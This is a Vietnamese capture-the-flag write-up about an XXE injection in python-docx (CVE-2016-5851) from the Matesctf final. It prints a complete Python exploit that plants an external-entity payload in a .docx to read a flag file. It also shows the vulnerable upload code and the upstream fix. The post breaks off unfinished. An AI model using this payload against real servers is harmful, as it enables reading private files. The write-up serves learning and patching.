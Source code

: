 ```yaml
---
title: "Matesctf final 2 - XXE Injection"
date: 2018-09-08T09:46:55+07:00
author: "Kev"
comments: true
tags: ["ctf", "flask"]
draft: false
---
```


{{< figure src="/images/posts/ex50-7.png" >}}

## EXPLOIT - [source](/resources/matesctf/ex50.tar) 
<hr>
Mình nhận thấy lỗi này đầu tiên, mình tưởng đây là LFI cơ, vì cho mình đọc nội dung của cái gì đó (trên hình) và download file nữa. {{<emoji lol>}}

```
python-docx is a Python library for creating and updating Microsoft Word (.docx) files.
```

`Docx` là thư viện sử dụng để xử lý file word. Cũng dễ hiểu đây là lỗi vì không cớ gì mà tác giả lại xử lý file word ở đây cả, chức năng upload và hiển thị nội dung file bình thường thì tại sao lại xử lý file docx làm gì. Sau khi tìm hiểu thì mình tìm được CVE của [docx](https://www.cvedetails.com/cve/CVE-2016-5851/). Tìm hiểu thêm thì đã có exploit sẵn, cụ thể mình cần tạo 1 file docx bất kì rồi chạy payload bên dưới, nhúng nội dung XML vào cuối file word đấy:

{{<highlight python>}}
import docx
import zipfile
import tempfile
import os

# define malicious XML
xml_string = '''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE w:document [
  <!ENTITY xxe SYSTEM "file:///home/ctf/ex50/flag" >
]>
<w:document xmlns:o="urn:schemas-microsoft-com:office:office"
xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"
xmlns:v="urn:schemas-microsoft-com:vml"
xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main"
xmlns:w10="urn:schemas-microsoft-com:office:word"
xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing">
<w:body>
<w:p>
<w:pPr>
<w:pStyle w:val="Normal" />
<w:rPr></w:rPr>
</w:pPr>
<w:r>
<w:rPr></w:rPr>
<w:t>
Pierre Ernst, Salesforce --[&xxe;]--
</w:t>
</w:r>
</w:p>
<w:p>
<w:pPr>
<w:pStyle w:val="Normal" />
<w:rPr></w:rPr>
</w:pPr>
<w:r>
<w:rPr></w:rPr>
<w:t></w:t>
</w:r>
</w:p>
<w:sectPr>
<w:type w:val="nextPage" />
<w:pgSz w:w="12240" w:h="15840" />
<w:pgMar w:left="1134" w:right="1134" w:header="0" w:top="1134"
w:footer="0" w:bottom="1134" w:gutter="0" />
<w:pgNumType w:fmt="decimal" />
<w:formProt w:val="false" />
<w:textDirection w:val="lrTb" />
</w:sectPr>
</w:body>
</w:document>'''

# source: http://stackoverflow.com/questions/25738523/how-to-update-one-file-inside-zip-file-using-python
def updateZip(zipname, filename, data):
    # generate a temp file
    tmpfd, tmpname = tempfile.mkstemp(dir=os.path.dirname(zipname))
    os.close(tmpfd)

    # create a temp copy of the archive without filename
    with zipfile.ZipFile(zipname, 'r') as zin:
        with zipfile.ZipFile(tmpname, 'w') as zout:
            for item in zin.infolist():
                if item.filename != filename:
                    zout.writestr(item, zin.read(item.filename))

    # replace with the temp archive
    os.remove(zipname)
    os.rename(tmpname, zipname)

    # now add filename with its new data
    with zipfile.ZipFile(zipname, mode='a',
compression=zipfile.ZIP_DEFLATED) as zf:
        zf.writestr(filename, data)

# update legit docx file with malicious XML
updateZip('whatever.docx', 'word/document.xml', xml_string)

# process with python-docx
document = docx.Document('whatever.docx')
print '\n\n'.join([paragraph.text for paragraph in document.paragraphs])
{{</highlight>}}

Tại sao lại nén zip? Vì bản chất file docx là 1 file nén chứa nhiều file xml bên trong. Sau khi chạy payload thì đoạn xml đã được chèn vào file document.xml

{{< figure src="/images/posts/ex50-8.png">}}

Vậy là upload bằng cách create exercise và view exercise, ta nhận được flag.

{{< figure src="/images/posts/ex50-9.png">}}

Truy ra nguồn gốc của lỗi này thì do 1 func xử lý exercises đã parse file .docx và lấy nội dung lưu vào database

{{<highlight python>}}
try:
   document = docx.Document(os.path.join(UPLOAD_FOLDER_EX, filename))
   content = '\n\n'.join([paragraph.text for paragraph in document.paragraphs])
except:
   content = "Cannot get content"
Exercises.insert({"name": name, "file_path": file_path,"date":date,"uploader":session['usn'],"content":content})
{{</highlight>}}

Nhờ một thời gian phân tích 1-day nhiều dạng, mình rút ra được cách fix lỗi nhanh nhất là đi tìm bản patch từ nhà cung cấp và đọc xem họ fix như thế nào, như thế sẽ nhanh hơn là tự suy nghĩ cách vá. Các bạn có thể xem bản vá trên [github](https://github.com/python-openxml/python-docx/pull/303/commits/14a44178711cbd860b910f8950f9946addfc5e57). Họ disable XML entity, đây là cách vá hay nhất mà mình biết.

Bước đầu tiên là phải tìm ra được file thư viện nằm ở vị trí nào trên server của mình

{{<highlight bash>}}
$ python -c "import docx; print docx.__file__"
> /usr/local/lib/python2.7/dist-packages/docx/__init__.pyc
{{</highlight>}}

Từ link github trên mình cũng biết là file cần fix là `docx/oxml/__init__.py` . Chỉ cần sửa dòng số 17 thôi là đủ

```
oxml_parser = etree.XMLParser(remove_blank_text=True,resolve_entities=False)
```

{{< figure src="/images/posts/ex50-10.png">}}

NHƯNG, đời không như mơ đâu các bạn à !!! Chúng ta không có quyền để sửa file `__init__.py`

## SOLUTIONS
<hr>
To be continue ...
